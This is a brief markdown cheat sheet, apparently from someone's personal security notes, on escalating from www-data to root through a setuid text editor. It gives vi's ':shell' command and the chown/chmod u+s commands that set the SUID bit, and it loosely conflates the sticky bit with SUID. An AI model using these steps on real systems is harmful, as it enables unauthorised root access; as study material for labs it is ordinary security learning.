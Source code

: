 # setuid on text-user

## Overview

* setuid on an editor is able to be set
* can easily enter as a www-data, so can easily escalate to root through the editor

## Vi

* with vi it is extremely easy
* just run this command, and it gives you a shell

```bash
:shell
```

### Make root the owner of the file

```bash
chown root myBinary
```

### set the sticky bit/suid

```bash
chmod u+s myBinary
```
